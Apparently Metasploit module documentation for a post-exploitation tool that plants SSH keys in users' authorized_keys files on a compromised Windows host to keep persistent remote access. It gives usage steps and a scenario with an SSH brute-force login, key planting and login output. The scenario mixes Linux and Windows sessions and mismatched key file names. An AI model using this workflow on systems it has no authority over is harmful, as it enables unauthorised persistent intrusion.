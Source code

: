 This module will add an SSH key to a specified user (or all), to allow remote
login on the victim via SSH at any time.

### Creating A Testing Environment

This module has been tested against:

1. Windows 10, 1903

## Verification Steps

1. Start msfconsole
2. Exploit a box via whatever method
3. Do: `use post/windows/manage/sshkey_persistence`
4. Do: `set session #`
5. Optional Do: `set USERNAME`
6. Optional Do: `set SSHD_CONFIG`
7. Do: `run`

## Options

**SSHD_CONFIG**

Location of the sshd_config file on the remote system. We use this to determine
if the authorized_keys file location has changed on the system. If it hasn't, we
default to .ssh/authorized_keys

**USERNAME**

If set, we only write our key to this user. If not, we'll write to all users

**PUBKEY**

A public key to use. If not provided, a pub/priv key pair is generated
automatically

**ADMIN_KEY_FILE**

Location of public keys for Administrator level accounts

**ADMIN**

Add public keys for gaining access to Administrator level accounts

**EDIT_CONFIG**

Allow the module to edit the sshd_config to enable public key authentication

## Scenarios

Get initial access

    msf auxiliary(ssh_login) > exploit

    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'tiki:tiki' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),
    46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic
    #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:38886 -> 192.168.2.190:22) at 2016-06-19 09:52:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence
    msf post(sshkey_persistence) > set SESSION 1
    SESSION => 1
    msf post(sshkey_persistence) > set CREATESSHFOLDER true
    CreateSSHFolder => true
    msf5 post(windows/manage/sshkey_persistence) > run

    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [+] Storing new private key as /Users/dwelch/.msf4/loot/20200205161837_default_172.16.128.153_id_rsa_706898.txt
    [*] Adding key to C:\Users\Dean Welch\.ssh\authorized_keys
    [+] Key Added
    [*] Adding key to C:\Users\testAccount\.ssh\authorized_keys
    [+] Key Added
    [*] Post module execution completed

Verify our access works

    ssh -i /Users/dwelch/.msf4/loot/20200205153101_default_172.16.128.153_id_rsa_457054.txt testAccount@172.16.128.153

    Microsoft Windows [Version 10.0.18362.592]
    (c) 2019 Microsoft Corporation. All rights reserved.

    testaccount@DESKTOP-V8L6UUD C:\Users\testAccount>
